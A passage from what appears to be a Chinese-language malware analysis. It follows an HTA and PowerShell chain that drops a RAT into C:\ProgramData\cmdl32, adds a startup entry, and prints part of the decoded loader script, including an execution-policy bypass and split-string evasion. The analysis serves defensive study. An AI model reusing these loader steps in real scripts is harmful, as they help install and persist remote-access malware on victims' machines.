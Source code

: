 （图3：修改原始命令行）









（图4：执行mshtml.RunHTMLApplication）









（图5：final.hta部分内容）





         Final.hta中的脚本会调用powershell.exe将脚本中存储的rat释放到“C:\ProgramData\cmdl32\Update”目录，并将rat给执行起来。








（图6：加密的powershell 命令行）





Powershell中的base64编码的脚本功能主要是释放木马到C:\ProgramData\cmdl32\Update目录，创建开机自启动项，并执行木马文件。加密的Poweshell命令行解码后明文如下：





Set-ExecutionPolicy -ExecutionPolicy Bypass
-Scope CurrentUser -Force;


$ErrorActionPreference='SilentlyContinue';





$pname36 = "3" + "60Tr"
+ "ay"


$binDir = $env:PROGRAMDATA +
"\cmdl32\Updater\";


try{


$cmdLine = ([int]$c).toString("00000000")+([int]$m).toString("00000000");


$cmdLine = "cliconfig32.exe "
+$cmdLine;


}
